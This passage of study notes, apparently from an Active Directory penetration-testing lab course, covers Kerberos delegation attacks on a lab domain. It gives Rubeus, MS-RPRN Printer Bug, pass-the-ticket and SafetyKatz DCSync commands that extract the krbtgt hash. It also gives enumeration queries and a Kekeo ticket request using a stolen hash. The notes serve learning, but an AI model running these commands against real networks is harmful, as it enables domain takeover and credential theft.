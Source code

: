 - #### ***2. Make dcorp-dc connect to dcorp-appsrv***
`C:\Users\Public\Rubeus.exe monitor /interval:5 /targetuser:dcorp-dc$ /nowrap` (every 5 seconds it will check if there is a TGT for a DC account and we don't want a any new lines in the base64 encoded TGT)
On another normal cmd, Force dcorp-dc to connect to dcorp-appsrv abusing the Printer Bug
(Windows) - https://github.com/leechristensen/SpoolSample
`C:\AD\Tools\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local`
(Linux) - https://github.com/p0dalirius/Coercer
Copy the base64 encoded TGT, remote extra spaces if there are and use it
`Rubeus.exe ptt /ticket:<paste base64 encoded ticket>`
One the ticket is injected, run DCSync
`C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"`
# **Learning Objective 15**
[[Learning Objective 15]]
# **Privilege Escalation - Constrained Delegation with Protocol Transition**
When enabled on a service account, allows access only to specified services on specified computers as a user. A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization. To impersonate the user, Service for User (S4U) extension is used which provides 2 extensions:
-  Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user
- Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service on behalf of a user
1. A user authenticates to the web service (running with service account websvc) using a non-kerberos compatible authentication mechanism
2. The web service requests a ticket from KDC for the user's account without supplying a password, as the websvc account
3. The KDC checks the websvc userAccountControl value for the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute, and that the user's account is not blocked for delegation. If OK it returns a forwardable ticket for the user's account (S4U2Self)
4. The service then passes this ticket back to the KDC and requests a TGS for the CIFS/dcorp-mssql.dollarcorp.moneycorp.local service
5. The KDC checks the msDS-AllowedToDelegateTo field on the websvc account. If the service is listed it will return a TGS for dcorp-mssql (S4U2Proxy)
6. The web service can now authenticate to the CIFS on dcorp-mssql as the user using the supplied TGS
The problem is in Step 2 because the DC never knows if the user whom ticket is requested actually ever authenticated to the web server or not (so we don't need to force DC to connect to the web server), so we could request a ticket for DA and all DC would check is if the account is blocked for delegation or not and if delegation is enabled on the web server. 
- #### ***Enumerate users and computers with constrained delegation enabled***
`Get-DomainUser -TrustedToAuth` (PowerView)
`Get-DomainComputer -TrustedToAuth` (PowerView)
`Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo` (AD Module)
We could see that if we compromise the account websvc we would be able to access the file system on dcorp-mssql (`{CIFS/dcorp-mssql.dollarcorp.moneycorp.local}`) as any user including DA
we have extracted credentials from dcorp-adminsrv which included credentials of websvc as well
- #### ***1st Abuse - Use websvc credentials to access CIFS on dcorp-mssql as DA***
(either plaintext pasword or NTLM hash/AES keys is required, we already have access to websvc's hash from dcorp-adminsrv)
- ##### ***Abusing with Kekeo***
- ##### ***Using asktgt from Kekeo, we request a TGT (steps 2&3)***
`tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:<RC4key>`
- ##### ***Using s4u from Kekeo, we request a TGS (steps 4&5)***